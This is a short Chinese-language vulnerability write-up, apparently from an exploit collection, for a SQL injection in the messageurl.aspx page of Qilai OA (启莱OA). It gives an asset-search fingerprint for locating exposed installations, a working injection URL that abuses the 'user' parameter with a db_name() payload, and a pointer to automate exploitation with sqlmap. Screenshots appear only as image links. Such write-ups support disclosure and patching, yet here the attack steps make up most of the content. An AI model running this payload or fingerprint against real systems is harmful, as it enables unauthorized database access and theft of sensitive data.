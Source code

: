 # 

# 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

![qilai-2-1](./images/qilai-2-1.png)

存在SQL注入的文件为 messageurl.aspx

```plain
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-2-2](./images/qilai-2-2.png)

使用SQLmap对参数 user 进行注入

![qilai-2-3](./images/qilai-2-3.png)
